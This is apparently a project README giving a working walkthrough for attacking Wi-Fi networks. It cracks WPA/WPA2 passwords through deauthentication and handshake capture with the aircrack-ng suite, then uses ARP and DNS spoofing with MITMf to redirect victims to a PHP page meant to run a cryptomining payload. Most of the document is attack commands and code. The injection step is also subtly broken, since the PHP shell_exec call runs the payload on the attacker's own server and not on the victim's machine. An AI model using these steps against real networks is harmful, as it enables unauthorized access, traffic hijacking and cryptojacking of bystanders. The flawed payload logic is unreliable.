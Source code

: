 # Gaining access to WPA/WPA2 with short/easy password and inject mining script
## Part 1. Gaining access to WIFI:
1. Install kali
2. Buy and hook a NIC (I used alfa awus036neh) that can use monitor mode to VM (assuming your interface name is wlan0)
``` 
ifconfig wlan0 down && iwconfig wlan0 mode monitor && ifconfig wlan0 up
OR
airmon-ng start wlan0
```
3. Sniff the environment for victim WIFI and capture bssid of target WIFI (Assuming target bssid is BSSID channel C)
```
airodump-ng wlan0
```
4. Sniff the MAC address of clients connected to it (Assuming target mac is MAC) 
```
airodump-ng --bssid BSSID --channel C --write output wlan0 
```
5. Get the handshake traffic. WPA/WPA2 is more secure than WEP so need to capture WPA/WPA2 handshake traffic since it contains Message Integrity Code (MIC) sent from client during handshake. To get the handshake traffic, use deauthentication attack to kick a currently connected client offline and capture it’s traffic when it reconnects.
```
aireplay --deauth 0 -a BSSID -c MAC wlan0
```
6. Get a wordlist. Two approaches for this part. (Assuming wordlist file is wl.txt)
   1. Downloaded wordlists from https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length 
   2. Generated my custom wordlist. Since when I am attacking my own wifi, I have some information about the password pattern and it makes the process easier. In real world this process is done by social engineering.
7. Compare the captured MIC with locally generated MIC from password from wordlist to find the correct password. 
```
aircrack-ng output-01.cap -w wl.txt
```
## Part 2. Injecting malicious script to victim machine.
The general idea is to use MITM attack and do DNS spoofing. When the victim visites google.com, I will redirect him to php file under my server and execute the payload
1. Install MITMf
```
cd ~;git clone https://github.com/byt3bl33d3r/MITMf; cd MITMf/;git submodule init && git submodule update --recursive
```
2. Change the /etc/mitmf/mitmf.conf file, add the following line below the IPv4 address record line
```
*.illinois.edu=LOCALHOST_IP_IN_THE_TARGET_NETWORK
www.illinois.edu=LOCALHOST_IP_IN_THE_TARGET_NETWORK
illinois.edu=LOCALHOST_IP_IN_THE_TARGET_NETWORK
```
3. Create the php file, Code I used is 
```
<?php
$result = shell_exec('/var/www/html/payload.sh');
echo $result;
?>
<a href="https://www.google.com">Continue to Google</a>
```
3.1 Make sure index.php has highest priority in apache2 (over index.html)
4. Upload the payload.sh enclosed
5. find the target IP and gateway IP
```
netdiscover -i wlan0 192.168.1.1/24
```
5. run dns spoofing on kali and all done!
```
cd ~/MITMf; python mitmf.py --arp --spoof -i wlan0 --target TARGET_IP --gateway GATEWAY_IP --dns
```
I tested under my home network on my linux laptop, it is working.
